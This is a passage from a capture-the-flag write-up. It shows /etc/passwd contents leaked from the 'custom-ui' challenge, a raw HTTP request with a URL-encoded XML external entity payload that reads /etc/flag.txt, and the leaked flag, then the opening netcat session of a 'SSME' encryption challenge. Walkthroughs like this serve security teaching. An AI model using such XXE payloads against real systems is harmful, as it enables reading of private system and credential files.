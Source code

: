     uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/bin/false
    ; padding: 15px 32px;">
    <SNIP>

We change the `debug` cookie to `true` and we get a comment at the bottom of the
page: `  <!-- TODO: Delete flag.txt from /etc/ --></body>`

    :::text
    POST /? HTTP/1.1
    Host: custom-ui.cha.hackpack.club
    Content-Type: application/x-www-form-urlencoded
    Cookie: debug=false
    Content-Length: 200

    xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxez1rnx%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxez1rnx%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e

    <SNIP>
    <button style="background-color: flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}; padding: 15px 32px;">
    <SNIP>

# Misc

## SSME

> Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
> nc cha.hackpack.club 41704

We connect to the service. We encrypt the string `qq` and decode it.

    :::text
    $ nc cha.hackpack.club 41704
    [*] Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
    [*] We use patented technology that only we have access to in order to safely encrypt your data
    [*] Please use this tool to encrypt/decrypt messages

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 1
    What would you like to encrypt? qq
    [+] Message encrypted: gANYAgAAAHFxcQAu
